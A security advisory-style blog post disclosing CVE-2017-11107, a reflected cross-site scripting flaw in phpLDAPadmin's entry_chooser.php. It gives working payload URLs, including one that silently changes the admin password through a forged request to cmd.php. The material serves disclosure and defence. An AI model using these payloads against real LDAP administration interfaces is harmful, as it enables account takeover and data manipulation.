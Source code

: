 +++
date = '2017-07-20T11:16:00+00:00'
title = 'Hijacking phpLDAPadmin account using a Cross-site scripting vulnerability (CVE-2017-11107)'
url = 'posts/hijacking-phpldapadmin-xss'
+++

## Software Description

phpLDAPadmin is an web-based LDAP adminstration interface for viewing and manipulating LDAP information.

## Vulnerability Description

`$request['form']` and `$request['rdn']` parameters in file `htdocs/entry_chooser.php` aren't properly sanitized before being displayed to the user, which allows a remote attacker to inject arbitrary HTML/JavaScript code in a user's context.

{{< gist xd4rker 0bcac2062fe59df80b283790ad71b0c7 >}}

This vulnerability, if successfully exploited, can lead to data manipulation or information leakage as it is demonstrated in this PoC video:

{{< youtube Ww7LD_bmH-o >}}

---

## Proof of Concept (PoC)

**XSS via the `form` parameter:**

```https://github.com/leenooks/phpLDAPadmin/issues/50
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20alert(1);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**XSS via the `rdn` parameter (needs Chrome's XSS Auditor bypass):**

```
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form&element=base&rdn=test%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```

**Changing admin password to `1337`:**

```
%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253D<LOGIN_DN>%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27
```

**`<LOGIN_DN>`**: Triple URL-encoded login DN (e.g., `cn%253Dadmin%252Cdc%253Dldap%252Cdc%253Dcom`)

**PoC URL:**

```
 http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253Dadmin%25252Cdc%25253Dldap%25252Cdc%25253Dcom%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**References:**

- [https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731](https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731)
- [https://github.com/leenooks/phpLDAPadmin/issues/50](https://github.com/leenooks/phpLDAPadmin/issues/50)
  https://github.com/leenooks/phpLDAPadmin/issues/50

